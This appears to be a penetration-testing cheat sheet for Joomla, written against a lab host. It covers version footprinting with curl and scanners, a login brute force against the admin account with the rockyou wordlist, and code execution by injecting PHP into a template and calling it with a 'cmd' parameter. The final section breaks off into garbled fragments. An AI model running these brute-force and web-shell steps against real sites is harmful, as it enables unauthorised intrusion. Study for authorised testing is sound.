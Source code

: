 # Joomla

Open source CMS written in PHP with a MySQL backend.

### Discovery/Footprinting

Investigating page source code:&#x20;

```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Joomla has a distinct Robots.txt:

```shell-session
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Checking the readme.txt:&#x20;

```shell-session
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

Checking JS files in media/system/js or administrator/manifests/files/joomla.xml:

```shell-session
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2005 - 2019 Open Source Matters. All rights reserved</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.9.4</version>
  <creationDate>March 2019</creationDate>
  
 <SNIP>
```

&#x20; You can also look for the install version in plugins/system/cache/cache.xml.

### Version Enumeration w/ DropeScan

{% embed url="https://github.com/SamJoan/droopescan" %}

```shell-session
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### JoomlaScan

{% embed url="https://github.com/drego85/JoomlaScan.git" %}

```shell-session
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

### Login Brute Force&#x20;

{% embed url="https://github.com/ajnik/joomla-bruteforce" %}

```
python3 joomla-brute.py -u http://10.10.10.150 -w /usr/share/wordlist/rockyou.txt -usr admin

chmod +x joomla-brute.py
./joomla-brute.py -u http://10.10.10.150 -w /usr/share/wordlist/rockyou.txt -usr admin
```

Default admin login portal is at http://\<URL>/administrator/index.php and the default username is admin.

### RCE via theme editor&#x20;

Similar to Wordpress, you can edit a page of a theme's PHP caaode to include malicious code and execute it by accessing the page through the browser or with curl.&#x20;

Configuration -> Templates -> Select Template -> input PHP code&#x20;

Excute PHP code:&#x20;

```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id
```

### Leveraging known vulnerabilities&#x20;

The majority Hdt&#x20;



a\
